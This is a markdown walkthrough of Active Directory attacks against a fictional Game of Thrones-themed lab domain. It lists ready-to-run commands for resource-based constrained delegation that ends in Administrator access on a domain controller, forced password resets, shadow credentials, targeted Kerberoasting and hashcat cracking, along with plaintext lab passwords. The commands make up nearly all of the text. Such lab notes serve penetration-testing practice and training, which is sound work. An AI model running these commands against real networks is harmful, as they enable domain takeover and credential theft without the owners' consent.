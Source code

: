 ## Resource Based Constrained Delegation
- Create a computer X (rbcd$)
`addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'`

- Add delegation write on our target from X (rbcd$)
`rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne`

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy. This will result in an administrator permission on kingslanding.

```
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'flush' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/cersei.lannister:il0vejaime' -delete
```

# ACL
## ForceChangePassword 
- As tywin.lannister we will change jaime.lannister password
`net rpc password jaime.lannister -U sevenkingdoms.local/tywin.lannister%powerkingftw135 -S kingslanding.sevenkingdoms.local`

## GenericWrite on User
This could be abuse with 3 different technics :

- shadowCredentials (windows server 2016 or +)
- targetKerberoasting (password should be weak enough to be cracked)
- logonScript (this need a user connection and to be honest it never worked or unless with a script already inside sysvol)

### Shadow Credentials
`certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p 'pasdebraspasdechocolat' -account 'joffrey.baratheon'`


### Target Kerberoasting (https://github.com/ShutdownRepo/targetedKerberoast)
The principe is simple. Add an SPN to the user, ask for a tgs, remove the SPN on the user. And crack the TGS just like a classic kerberoasting.
`targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p pasdebraspasdechocolat --request-user joffrey.baratheon`
crack the hash
`hashcat -m 13100 -a 0 joffrey.hash rockyou.txt --force`
